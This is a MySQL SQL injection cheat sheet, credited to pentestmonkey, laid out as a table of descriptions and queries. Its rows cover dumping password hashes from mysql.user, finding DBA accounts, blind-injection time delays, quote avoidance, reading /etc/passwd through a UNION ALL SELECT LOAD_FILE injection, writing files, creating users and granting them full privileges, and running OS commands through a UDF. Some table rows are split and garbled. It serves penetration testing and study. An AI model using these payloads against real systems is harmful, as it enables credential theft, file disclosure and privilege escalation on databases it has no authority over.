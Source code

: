 # All credits go to pentestmonkey:

| Description | Commands |
| --- | --- |
|Version|SELECT @@version|
|Comments|SELECT 1; #comment|
|SELECT /*comment*/1;|
|Current User|SELECT user();|
|SELECT system_user();|
|List Users|SELECT user FROM mysql.user; — priv|
|List Password Hashes|SELECT host, user, password FROM mysql.user; — priv|
|Password Cracker|John the Ripper will crack MySQL password hashes.|
|List Privileges|SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns|
|List DBA Accounts|SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv|
|Current Database|SELECT database()|
|List Databases|SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0|
|SELECT distinct(db) FROM mysql.db — priv|
|List Columns|SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|List Tables|SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|Find Tables From Column Name|SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’|
|Select Nth Row|SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0|
|SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1); # returns c|
|Bitwise AND|SELECT 6 & 2; # returns 2|
|SELECT 6 & 1; # returns 0|
|ASCII Value -> Char|SELECT char(65); # returns A|
|Char -> ASCII Value|SELECT ascii(‘A’); # returns 65|
|Casting|SELECT cast(’1′ AS unsigned integer);|
|SELECT cast(’123′ AS char);|
|String Concatenation|SELECT CONCAT(‘A’,'B’); #returns AB|
|SELECT CONCAT(‘A’,'B’,'C’); # returns ABC|
|If Statement|SELECT if(1=1,’foo’,'bar’); — returns ‘foo’|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A|
|Avoiding Quotes|SELECT 0×414243; # returns ABC|
|Time Delay|SELECT BENCHMARK(1000000,MD5(‘A’));|
|SELECT SLEEP(5); # >= 5.0.12|
|Make DNS Requests|Impossible?|
|Command Execution|If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.|
|Local File Access|…’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files.|
|SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system|
|Hostname, IP Address|SELECT @@hostname;|
|Create Users|CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv|
|Delete Users|DROP USER test1; — priv|
|Make User DBA|GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv|
|Location of DB files|SELECT @@datadir;|
|Default/System Databases|information_schema (>= mysql 5.0)|
|mysql|
